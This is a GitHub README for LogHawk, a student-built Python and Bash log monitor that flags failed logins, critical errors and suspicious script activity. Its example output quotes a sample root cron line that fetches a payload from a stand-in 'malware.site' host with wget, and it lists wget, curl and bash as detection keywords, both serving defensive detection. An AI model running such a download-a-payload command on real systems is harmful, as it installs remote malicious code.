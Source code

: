 
# 🦅 LogHawk

LogHawk is a lightweight, open-source log monitoring tool built in both Python and Bash. It automates the detection of suspicious activity in system and web logs, helping security teams identify threats like brute-force attacks, critical errors, and malicious scripts before they become incidents. It scans system and application logs for:

- 🛑 Failed login attempts
- ⚠️ Unusual traffic spikes
- 🔥 Critical system errors
- 🦠 Suspicious script activity


## ⚙️ Installation
Before using LogHawk, make sure you have Python 3 installed. You can install it by running: 

```bash
sudo apt-get install python3
```
Clone the repo and make scripts executable:
```bash
git clone https://github.com/Lintageorge7/LogHawk.git
cd LogHawk
chmod +x loghawk.sh
chmod +x loghawk.py
```
## 🐍 Usage (Python)

```bash
python3 loghawk.py Sample_logs/auth.log
```

## 📤 Example Output
```bash
[🔐] Detecting failed logins...
⚠️  6 failed login attempts from 192.168.1.101
[🌐] Detecting traffic spikes...
[🔥] Detecting system errors...
❗ Jul 14 08:14:30 systemd[1]: ERROR - Disk full
❗ Jul 14 08:14:45 app[1001]: CRITICAL - Kernel panic
[🦠] Detecting suspicious script activity...
🚩 Suspicious: Jul 14 08:14:01 cron[5678]: (root) CMD (wget http://malware.site/payload.sh)
```

## 💻 Usage (Bash)
```bash
./loghawk.sh Sample_logs/system.log
```

## 📸 Sample Output Screenshot

[screenshots/sample_bashoutput.png](https://github.com/Lintageorge7/LogHawk/blob/84d22923e3ce9c1e7a784bde5d43baba02d11bb3/screenshots/sample_bashoutput.png)

screenshots/sample_output.png

## 🧠 Threats Detected
LogHawk currently detects:

 • 🔐 Failed Login Attempts — Flags 5+ failed logins per IP (MITRE T1110)

 • 🔥 Critical System Errors — Catches “ERROR” and “CRITICAL” entries in logs

 • 🦠 Suspicious Script Activity — Identifies malicious command use (wget, curl, bash)

 • 🌐 Traffic Spikes — High request volume from single IPs (future iteration)

All detections act as potential Indicators of Compromise (IoCs).

## ⏱️ Automation Setup

### 🐧 Linux (Cron)
Run every 10 minutes:
```bash
crontab -e
*/10 * * * * /home/student/LogHawk/loghawk.sh /var/log/auth.log
```

## 🪟 Windows: Task Scheduler

To schedule LogHawk on Windows:

1. Open Task Scheduler → Create Basic Task

2. Trigger: Every 10 minutes

3. Action: Start a program
    
 •  Program: python

 •  Arguments: C:\path\to\loghawk.py C:\logs\auth.log

## 📂 Project Structure

```bash
LogHawk/

├── loghawk.py        # Python version
├── loghawk.sh        # Bash version
├── sample_logs/      # Test log files
├── screenshots/      # Images for report/README
├── README.md         # This file
└── LogHawk_Report.md # Final report (optional: .pdf)
```

## 🧪 Sample Logs

Sample logs are located in the sample_logs/ folder for testing:

• auth.log

• access.log

• system.log


## 🔄 Future Improvements
 
 • Email/SMS alerting

 • Log filtering thresholds

 • JSON/CSV export

 • Web UI dashboard

 • Integration with ELK or Splunk

## 📚 References

 • MITRE ATT&CK: https://attack.mitre.org/ 

 • NIST Log Management Guidelines: https://csrc.nist.gov/publications 

 • Red Hat: Log Files and Monitoring: https://access.redhat.com  

## 🤝 Contributing
Pull requests are welcome. If you have improvements or new detection rules, feel free to contribute!

## 📄 License
This project is licensed under the MIT License.

## 👩‍💻 Author
Linta Susan George
Cybersecurity Student @ Lighthouse Labs | 🇨🇦
